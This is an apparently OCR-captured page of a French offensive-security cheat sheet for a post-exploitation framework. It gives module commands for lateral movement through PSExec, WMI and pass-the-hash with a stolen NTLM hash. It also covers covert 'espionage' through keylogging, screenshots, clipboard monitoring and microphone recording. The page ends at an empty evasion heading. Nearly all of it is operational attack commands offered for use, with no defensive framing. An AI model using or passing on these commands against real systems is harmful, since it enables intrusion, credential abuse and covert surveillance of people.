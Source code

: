 ### Lateral Movement
```python
# PSExec lateral movement
usemodule lateral_movement/invoke_psexec
set ComputerName target.domain.com
set Listener https
execute

# WMI lateral movement
usemodule lateral_movement/invoke_wmi
set ComputerName target.domain.com
set Listener https
execute

# Pass the Hash
usemodule lateral_movement/invoke_psexec_pth
set Hash [NTLM_HASH]
set ComputerName target.domain.com
execute
```

## 🕵️ Modules d'Espionnage

### Keylogger
```python
usemodule collection/keylogger
set Sleep 5
execute
```

### Screenshot
```python
usemodule collection/screenshot
execute
```

### Surveillance clipboard
```python
usemodule collection/clipboard_monitor
execute
```

### Enregistrement audio
```python
usemodule collection/get_microphone
set Time 30
execute
```

## 🌐 Evasion et Obfuscation
